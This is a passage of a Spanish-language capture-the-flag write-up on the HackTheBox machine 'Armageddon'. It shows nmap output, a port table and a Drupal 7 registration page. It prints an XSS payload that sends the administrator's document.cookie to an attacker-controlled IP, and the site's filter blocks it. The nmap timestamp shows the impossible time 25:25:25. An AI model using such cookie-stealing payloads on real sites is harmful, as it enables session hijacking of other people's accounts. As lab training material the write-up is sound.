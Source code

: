 ```bash
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 25:25:25 2021 -- 1 IP address (1 host up) scanned in 18.08 seconds
```

Obtenemos (varias cositas que veremos despues) por ahora:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 |
| 80     | HTTP     | Apache httpd 2.4.6 |

Metámonos con cada servicio a ver por donde entrarle...

...

En cuanto al puerto **22** y su versión no tenemos nada.

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

![323page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323page80.png)

Tenemos un panel login, donde también podemos registrarnos... Antes de empezar a recorrer la página, creémonos una cuenta (o intentemos) a ver que hay dentro...

![323page80_error_register](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323page80_error_register.png)

El mensaje de error es medio interesante, ya que no nos va a dejar entrar :P Pero también habla de que nuestra cuenta esta a la espera de ser aprobada por un administrador... Con esto podríamos pensar en registrarnos con algún nombre tipo: 

```js
<script>document.write('<img src="http://<nuestra_ip>/cualquiercosita.jpg?cookie=' + document.cookie + '">')</script>
```

Levantaríamos un servidor web y lanzaríamos esa línea para que cuando el administrador valide nuestro usuario lográramos en teoría obtener su cookie, pero igual al intentarlo nos detecta los caracteres extraños y no nos deja registrarnos...

Podemos volver a nuestro escaneo de `nmap` y fijarnos que tenemos un `Drupal 7`, veamos si hay algunas vulnerabilidades relacionadas con él...

> **Drupal** es un gestor de contenidos, hecho para la publicacion pricnipalmente de articulos, que tambien permite generar foros, encuestas, blogs... [¿Qué es **Drupal**?](https://www.fullweb.es/blog/drupal-que-es-y-por-que-deberias-utilizarlo)

Bien, revisando la versión `7` que tenemos, nos encontramos un **CVE** bastante interesante...
